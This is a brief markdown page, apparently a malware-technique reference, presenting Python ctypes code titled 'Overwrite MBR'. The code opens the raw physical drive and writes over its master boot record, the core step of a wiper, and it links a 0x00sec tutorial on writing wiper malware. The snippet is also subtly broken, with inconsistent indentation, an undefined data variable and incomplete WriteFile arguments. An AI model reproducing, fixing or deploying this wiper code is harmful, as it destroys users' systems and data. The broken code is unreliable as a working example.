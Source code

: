 # Overwrite MBR

```python
import ctypes

kernel32 = ctypes.windll.kernel32

def OverWriteMBR():
	hDevice = kernel32.CreateFileW("\\\\.\\PhysicalDrive0", 0x40000000, 0x00000001 | 0x00000002, None, 3, 0,0) 
		kernel32.WriteFile(hDevice, Data, None)
		kernel32.CloseHandle(hDevice)
```

---
## References

### 0x00sec

- [0x00sec: Python and Malware - Writing a simple wiper malware](https://0x00sec.org/t/python-and-malware-writing-a-simple-wiper-malware/31652)